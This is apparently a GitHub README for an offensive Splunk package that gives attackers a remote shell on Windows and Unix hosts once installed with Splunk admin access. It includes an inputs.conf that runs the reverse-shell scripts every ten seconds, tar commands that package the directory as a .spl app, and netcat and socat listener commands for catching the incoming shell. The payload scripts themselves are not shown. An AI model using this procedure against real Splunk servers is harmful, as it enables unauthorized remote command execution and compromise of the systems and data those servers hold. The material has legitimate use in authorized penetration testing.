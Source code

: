 # bind_shell_splunk
A simple splunk package for obtaining bind shells on both Windows and most *nix systems. 

# requirements 
* splunk administrative access
* a netcat / socat listener on the attacking machine 


# how to use


* Depending on the target machine, you will either need to edit the rev.py for unix type machines or run.ps1 for Windows machines. Enter your attacking machine IP and ports. 
* Your files and directory structure should look like this.


```
reverse_shell_splunk
├── bin
│   ├── rev.py
│   ├── run.bat
│   └── run.ps1
└── default
    └── inputs.conf

```

* inputs.conf in this instance is the configuration file that tells splunk to launch the run.bat file and at what interval. In the example below "run.bat" will be run every 10 seconds. Because splunk only runs .bat files, the call inside "run.bat" is to a file with its same name. When run.bat is called, run.ps1 being in the same directory and having the same name will be run. 


```
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = pentest

[script://.\bin\run.bat]
disabled = 0
sourcetype = pentest
interval = 10

```
* Once you have finished editing the files you will need to tar up the directory and its contents. Make sure to keep the directory and file structure in the example above. Lastly rename the .tgz file to .spl

```

tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz reverse_shell_splunk.spl

```

* Launch your listener and upload this package via the app installation page. 

```
Listener options
nc -nlvp "port"
or 
socat `tty`,raw,echo=0 tcp-listen:"port"
```

Note: I have had to restart the splunk service on unix type machines in my testing for this to work. No restarts are needed on windows machine. 
